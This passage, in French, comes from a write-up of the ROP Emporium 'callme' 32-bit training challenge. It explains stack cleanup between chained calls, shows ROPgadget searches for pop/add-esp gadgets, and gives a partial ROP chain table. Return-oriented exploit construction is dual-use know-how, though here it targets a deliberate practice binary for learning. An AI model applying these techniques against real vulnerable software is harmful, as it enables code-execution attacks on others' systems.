     > Thank you!
    callme_one() called correctly
    Incorrect parameters
    [*] Got EOF while reading in interactive

On a bien passé callme_on mais c'est tout.

**La solution** consiste à placer dans l'adresse de retour l'adresse d'un gadget qui effectuer sur la pile l'équivalent de ce que l'appel normal de la fonction ferait : consommer les trois paramètres.

Concrètement cela correspond à incrémenter l'adresse de la pile de 12 octets , effectuer 3 pop, ou encore trouver un "ret 0xc"
- add $esp, 12
- pop reg; pop reg; pop reg; ret
- ret 12

### Recherche de gadget

Recherchons donc un gadget qui incrément esp de 12.

``` sh

    root@zbook310152:/w/ropemporium/x32/callme# ROPgadget --binary callme32 --depth 5|grep "add esp"
    0x080485f2 : add esp, 0x10 ; leave ; ret
    0x080484aa : add esp, 8 ; pop ebx ; ret

    root@zbook310152:/w/ropemporium/x32/callme# ROPgadget --binary callme32 |grep "ret "
    0x0804861e : ret 0xeac1

    ropemporium/x32/callme# ROPgadget --binary callme32 --depth 5|grep "pop"
    0x080484aa : add esp, 8 ; pop ebx ; ret
    0x080484ab : les ecx, ptr [eax] ; pop ebx ; ret
    0x08048681 : mov ebp, esp ; pop ebp ; jmp 0x8048610
    0x08048683 : pop ebp ; jmp 0x8048610
    0x080487fb : pop ebp ; ret
    0x080487f8 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
    0x080484ad : pop ebx ; ret
    0x080487fa : pop edi ; pop ebp ; ret
    0x080487f9 : pop esi ; pop edi ; pop ebp ; ret
    0x080486ea : popal ; cld ; ret
    0x08048680 : push ebp ; mov ebp, esp ; pop ebp ; jmp 0x8048610
```
On peut retenir le gadget :

    0x080484aa : add esp, 8 ; pop ebx ; ret

ou

    0x080487f9 : pop esi ; pop edi ; pop ebp ; ret

La ropchaine au final devient :

| ROP entry | comment |
| ----------- | ------- |
| 0x80484f0  | callme_one@plt |
| 0x080484aa | pop3ret |
| 0xdeadbeef | param1 |
| 0xcafebabe | param2 |
| 0xd00df00d | param3 |
| 0x0804876f | callme_two@plt |
| 0x080484aa | pop3ret |